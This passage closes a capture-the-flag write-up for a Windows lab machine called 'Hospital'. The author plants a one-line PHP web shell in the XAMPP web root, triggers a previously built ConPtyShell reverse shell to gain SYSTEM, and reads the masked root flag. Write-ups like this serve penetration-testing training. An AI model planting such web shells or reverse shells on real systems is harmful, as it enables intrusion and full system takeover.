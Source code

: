 ```powershell
PS C:\Users\drbrown.HOSPITAL\Documents> cd C:\xampp\htdocs\    
PS C:\xampp\htdocs> Add-Content -Path reverse.php -Value '<?php system($_GET["cmd"]); ?>'
```

Use the same payload that we crafted before of ConPtyShell (remember to spawn the python server) and wait for reverse shell:

![Branching](/assets/images/Hospital/final_shell.png)

Now we can see root.txt flag

```powershell
PS C:\xampp\htdocs> whoami
nt authority\system
PS C:\xampp\htdocs> cd C:\Users\Administrator\Desktop\ 
PS C:\Users\Administrator\Desktop> type .\root.txt 
4d****************************72
```

That is the machine, hope you liked it :).
